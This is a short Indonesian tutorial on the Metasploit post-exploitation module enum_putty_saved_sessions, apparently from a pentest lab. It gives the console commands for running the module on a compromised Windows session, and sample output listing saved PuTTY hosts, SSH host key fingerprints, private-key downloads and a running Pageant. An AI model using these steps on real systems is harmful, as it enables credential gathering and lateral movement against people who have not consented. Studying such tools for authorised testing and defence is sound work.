 # enum_putty_saved_sessions

Modul `enum_putty_saved_sessions` di Metasploit adalah modul post-exploitation untuk sistem Windows yang digunakan untuk mengekstrak informasi sesi `PuTTY` yang tersimpan di `registry`, termasuk `alamat host`, `port`, dan `pengaturan koneksi`, yang dapat dimanfaatkan untuk akses ke sistem jarak jauh yang pernah dihubungi oleh target.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_putty_saved_sessions
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Looking for saved PuTTY sessions
[*] Found 1 session

PuTTY Saved Sessions
====================

 Name              HostName      UserName  PublicKeyFile  PortNumber  PortForwardings  ProxyUsername  ProxyPassword
 ----              --------      --------  -------------  ----------  ---------------  -------------  -------------
 server debian 12  192.168.1.27                           22

[+] PuTTY saved sessions list saved to /root/.msf4/loot/20250517033047_default_192.168.1.53_putty.sessions.c_578577.txt in CSV format & available in notes (use 'notes -t putty.savedsession' to view).
[*] Downloading private keys...

[*] Looking for previously stored SSH host key fingerprints
[*] Found 1 stored key fingerprint
[*] Downloading stored key fingerprints...

Stored SSH host key fingerprints
================================

 SSH Endpoint     Key Type(s)
 ------------     -----------
 192.168.1.27:22  ssh-ed25519

[+] PuTTY stored host keys list saved to /root/.msf4/loot/20250517033047_default_192.168.1.53_putty.storedfing_843501.txt in CSV format & available in notes (use 'notes -t putty.storedfingerprint' to view).

[*] Looking for Pageant...
[+] Pageant is running (Handle 0x0)
[*] Post module execution completed
```
